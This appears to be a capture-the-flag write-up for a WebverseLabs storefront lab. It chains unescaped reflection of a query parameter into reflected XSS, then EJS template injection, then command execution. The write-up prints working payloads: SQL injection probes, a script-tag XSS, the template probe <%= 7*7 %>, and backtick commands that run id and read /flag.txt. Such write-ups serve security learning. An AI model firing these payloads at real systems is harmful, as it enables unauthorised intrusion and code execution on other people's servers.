







OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
MooKoo - HTML Injection → Reflected XSS → SSTI → RCE
Platform: WebverseLabs
Target: https://4828ab0c-3953-mookoo-2bbf6.events.webverselabs-pro.com
Vulnerability classes: Reflected XSS, Server-Side Template Injection (SSTI), RCE

MooKoo Family Farm is a small "closing-down sale" storefront where each animal on the farm is listed as a product. The site is intentionally written like a quickly-thrown-together shop front (per the lab brief), and the product query parameter on the product detail page turns out to be the single point of entry for the whole chain: a reflected XSS that masks a server-side template injection sink, which in turn allows arbitrary OS command execution.
| Path | Method | Notes |
|---|---|---|
/ |
GET | Landing page, herd grid, links to /product?product=<slug> |
/about |
GET | Static "Our story" page, no user input |
/product?product=<slug> |
GET | Product detail page. Valid slugs: bessie, dakota, clover, woolly, henrietta, hampton, gandalf, drake |
/style.css, /img/*, fonts |
GET | Static assets |
After landing on the page, I could see that the "Make an offer" button on each product page is a disabled GET form pointing back at /product?product=<slug> - a dead end, not an additional input vector.
The only attacker-controlled input anywhere on the site is the product query parameter.

The /product endpoint returns a friendly "not found" page for any slug it doesn't recognise, and that page echoed the requested value back.

The obvious thing to try was SQL injection. The following payloads were tried against the product parameter:

bessie'bessie'-- -' OR '1'='1bessie' OR '1'='1'-- -In every case the response was a "not found" page with the raw payload reflected verbatim. There were no SQL errors.
While ruling out SQLi, it became clear that the "not found" message reflects product completely unescaped into the HTML body:
GET /product?product=<h1>test</h1><h2>html</h2><h3>injection</h3>
returned:

Confirmed with a full script tag:
GET /product?product=<script>alert(1)</script>
returned:

The response carried no Content-Security-Policy (CSP) header (only the legacy, largely-ignored X-XSS-Protection: 1; mode=block), so this executes in any modern browser. On its own this is a reflected XSS - but the more interesting question was why the fallback path reflects raw input at all. That question led directly to the next finding.
The "X not found" fallback behaviour suggested the application might be attempting to render the product value as a template fragment before falling back to raw reflection on error. Standard Jinja2/Twig-style syntax was tried first and failed:
GET /product?product={{7*7}}
returned: {{7*7}} not found
EJS-style delimiters were tried next (from PayloadAllTheThings):

GET /product?product=<%= 7*7 %> returned: 49 not found
This confirmed SSTI. The product value is being injected into the source of a template, not passed as data to a pre-compiled one.
The evaluator treated backtick-delimited content as a shell command rather than (or in addition to) a JS template literal:
GET /product?product=<%= `id` %> returned: uid=1100(farmhand) gid=999(farm) groups=999(farm)
This is full, unauthenticated remote code execution as the farmhand user. Reading the flag was then trivial:
GET /product?product=<%= `cat /flag.txt` %>
Flag: WEBVERSE{70b460XXXXXXXXXXXXXXXXXXXXXXXXXX}
Two independent mistakes compound into RCE:
On top of that, output is never HTML-encoded on either the success or failure path, which is what produced the reflected XSS in Finding #1 and made the SSTI easier to spot in the first place.
HTML injection led to reflected XSS, which the lab description said could end up resulting in an SSTI vulnerability because we could get the page to render our input.
This was a great lab to show how one vulnerability that doesn't seem too harmful at first glance can end up resulting in something serious if you're inquisitive enough to continue poking at it. The following is a quick summary of the core findings:
Note: URL decoded payloads to help explain.
# Confirm SSTI (arithmetic evaluation)
GET /product?product=<%= 7*7 %>
returns: "49 not found"
# Confirm RCE
GET /product?product=<%= `id` %>
returns: "uid=1100(farmhand) gid=999(farm) groups=999(farm)"
# Read the flag
GET /product?product=<%= `cat /flag.txt` %>
returns: WEBVERSE{flag_redacted}
🍺 Quick message to readers: if my writeups help you, please consider a small donation to my buymeacoffee link here. This is not required but is very much appreciated! 🍺